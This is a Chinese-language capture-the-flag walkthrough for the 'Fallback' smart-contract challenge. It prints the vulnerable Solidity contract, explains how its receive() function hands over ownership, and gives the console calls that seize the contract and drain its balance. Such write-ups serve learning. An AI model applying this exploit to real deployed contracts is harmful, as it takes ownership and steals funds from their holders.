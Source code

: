 # Fallback

> 仔细看下面的合约代码.
>
> 通过这关你需要
>
> 1. 获得这个合约的所有权
> 2. 把他的余额减到0

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

## 攻击思路

1. 合约中有两个地方可以替换owner

   contribute函数

   ```solidity
   function contribute() public payable {
       require(msg.value < 0.001 ether);
       contributions[msg.sender] += msg.value;
       if(contributions[msg.sender] > contributions[owner]) {
         owner = msg.sender;
       }
     }
   ```

   receive函数

   ```solidity
   receive() external payable {
       require(msg.value > 0 && contributions[msg.sender] > 0);
       owner = msg.sender;
     }
   ```

   

2. 使用contribute函数进行攻击，需要我们比owner还要有钱

   查询合约owner有多少余额，1000贡献（1000ETH）

   ![image-20220523161816607](D:\workspace\solidity\ethernaut\1.Fallback\owner的余额.png)

   你有钱，你牛逼！

3. 使用receive函数进行攻击，需要我们给合约转一笔钱并且还需要我们在合约中的余额大于0。所以先给合约贡献一点钱，再给合约转一笔钱，即可获取到合约的owner。

   ```js
   // 调用合约contribute函数并发送 1 wei的ETH
   await contract.contribute({value:1})
   
   // 给合约转 1 wei的ETH
   await contract.sendTransaction({value:1})
   
   // 查询此时的合约owner地址，即为自己的地址
   await contract.owner()
   ```

4. 最后把合约中的钱转走

   ```js
   await contract.withdraw()
   ```

此时提交合约实例，完成目标。